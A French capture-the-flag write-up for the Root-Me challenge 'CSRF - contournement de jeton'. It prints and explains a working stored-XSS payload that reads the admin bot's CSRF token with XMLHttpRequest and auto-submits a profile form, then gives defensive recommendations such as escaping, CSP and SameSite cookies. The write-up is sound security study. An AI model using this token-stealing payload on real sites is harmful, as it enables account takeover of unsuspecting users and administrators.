

# Root-Me – Challenge 3 : CSRF - contournement de jeton

## 1. Nom du challenge & URL

**Nom** : Challenge 3 – CSRF - contournement de jeton

**URL** : `https://www.root-me.org/fr/Challenges/Web-Client/CSRF-contournement-de-jeton`

---

## 2. Objectif

Le but du challenge est de retrouver le mot de passe du compte **admin**.

---

## 3. Étapes de découverte de la vulnérabilité

1. En arrivant sur la page, on voit deux liens : **login** et **register**
2. Sur register, on se créer un compte avec **username** et **passowrd** puis l'on submit
3. Une fois connecté, on peut voir plusieurs liens : **contact**, **profile**, **private** et **logout**
4. Dans l'onglet profile, on trouve un formulaire avec des champs : **username**, une case à cocher représentant le status et un bouton submit
5. En regardant le HTML de cette page, on remarque le token csrf présant dans le formulaire, on remarque egalement qu'il change à chaque rafraichissement de la page
6. On va alors dans l'onglet contact qui permet d'envoyer un message. En testant, on constate que le contenu du message envoyé peut contenir du **HTML/JavaScript** et qu’il sera lu par un compte administrateur automatisé (`robot-admin`) dans un navigateur.
On a alors une XSS strockée côté admin qui permet d'exectuer du JS dans le navigateur avec se cookies et donc avec son token csrf

## 4. Payload utilisé

```
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="cam" />
    <input type="hidden" name="status" value="on" />
    <input id="admin-token" type="hidden" name="token" value="" />
</form>

<script>
    var request = new XMLHttpRequest();
    request.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile", false);
    request.send(null);

    var response = request.responseText;
    var groups = response.match(/token\" value=\"(.*?)\"/);
    var token = groups[1];

    document.getElementById("admin-token").value = token;
    document.csrf.submit();
</script>
```

### Explication du payload :

#### Partie `<form>`

- `action="...?action=profile"`  
  Envoie la requête vers la page de mise à jour du profil.

- `username=cam`  
  À remplacer par **mon login** pour activer mon propre compte.

- `status=on`  
  Correspond à l’activation / validation du compte.

- `token`  
  Champ vide au départ, qui sera rempli dynamiquement avec le token CSRF récupéré depuis le compte `robot-admin`.


#### Partie `<script>`

- `XMLHttpRequest()`  
  Permet d’effectuer une requête `GET` sur `?action=profile` avec les **cookies de robot-admin**, lorsque celui-ci consulte le message dans l’onglet *Contact*.

- `response.match(/token\" value=\"(.*?)\"/)`  
  Extrait la valeur du **token CSRF** directement dans le HTML de la réponse.

- `document.getElementById("admin-token").value = token`  
  Insère le token CSRF récupéré dans le champ caché `token` du formulaire.

- `document.csrf.submit()`  
  Soumet le formulaire au serveur avec :
  - le bon `username`,
  - `status=on`,
  - le **token valide de robot-admin**, ce qui permet de contourner la protection CSRF.

---

## 5. Résultat obtenu

Après avoir soumis le payload dans l’onglet Contact, il faut attendre que robot-admin consulte le message en quelques secondes et aller sur l'onglet private. 
Un message apparait avec le mot de passe pour validé le challenge



---

## 6. Screenshot

Voici un screenshot la validation du challenge :


---

## 7. Recommandations pour sécuriser la vulnérabilité

Ce challenge met en évidence une combinaison critique de vulnérabilités **CSRF + XSS + mauvaise isolation du compte administrateur**.  

Voici les principales recommandations pour éviter ce type d'attaque :

### 7.1. Empêcher les attaques XSS

Le problème principal vient du fait que le contenu de l'onglet **Contact** accepte et exécute du HTML / JavaScript.

Pour se protéger :

- Échapper tous les caractères spéciaux (`<`, `>`, `"`, `'`, `&`) avec `htmlspecialchars()` (PHP)
- Afficher les messages utilisateurs en texte brut (`textContent`) au lieu de `innerHTML`
- Mettre en place une **CSP (Content Security Policy)** stricte

Exemple d'en-tête CSP recommandé :

```http
Content-Security-Policy: default-src 'self'; script-src 'self';
```

### 7.2. Renforcer la protection CSRF

Un token CSRF seul ne suffit pas si une XSS permet de le voler.

Les bonnes pratiques :

- Lier chaque token CSRF à la session utilisateur
- Vérifier l'en-tête HTTP Origin ou Referer pour les requêtes sensibles
- Activer l'attribut SameSite sur les cookies

Exemple :

```http
Set-Cookie: sessionid=abc123; Secure; HttpOnly; SameSite=Strict
```

### 7.3. Isoler l'interface administrateur

Il ne faut jamais exposer un compte administrateur à du contenu utilisateur non filtré.

- Héberger l'interface admin sur un sous-domaine séparé (ex : admin.example.local)
- Restreindre l'accès admin à des IPs internes
- Ne pas afficher du contenu utilisateur directement sur l'interface admin

### 7.4. Sécuriser le bot administrateur

Le bot robot-admin ne devrait jamais exécuter de JavaScript venant d'utilisateurs.

- Désactiver JavaScript pour le bot 
- Faire passer les messages par un parser backend avant affichage
- Limiter ses privilèges (principe du moindre privilège)

### 7.5. Implémenter une Content Security Policy (CSP)

Une CSP bien configurée empêche l'exécution de JavaScript injecté :

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self';
  object-src 'none';
  base-uri 'none';
  frame-ancestors 'none';
```

---

## 8. Références

[1] **Les attaques CSRF (Root-Me Repository - FR)**  
https://repository.root-me.org/Exploitation%20-%20Web/FR%20-%20les%20attaques%20CSRF.pdf

[2] **CSRF: Attack and defense (Root-Me Repository - EN)**  
https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20CSRF:%20Attack%20and%20defense.pdf

[3] **OWASP Cross-site Request Forgery CSRF (Root-Me Repository - EN)**  
https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20OWASP%20Cross-site%20Request%20Forgery%20CSRF.pdf

[4] **OWASP – Cross-Site Request Forgery (CSRF)**  
https://owasp.org/www-community/attacks/csrf  

[5] **OWASP – Cross-Site Scripting (XSS)**  
https://owasp.org/www-community/attacks/xss  

[6] **OWASP Cheat Sheet – CSRF Prevention**  
https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html  

[7] **OWASP Cheat Sheet – XSS Prevention**  
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html  

[8] **Mozilla – SameSite Cookies (MDN Web Docs)**  
https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Set-Cookie/SameSite  

[9] **Google Web Fundamentals – Content Security Policy (CSP)**  
https://developer.chrome.com/docs/web-platform/content-security-policy/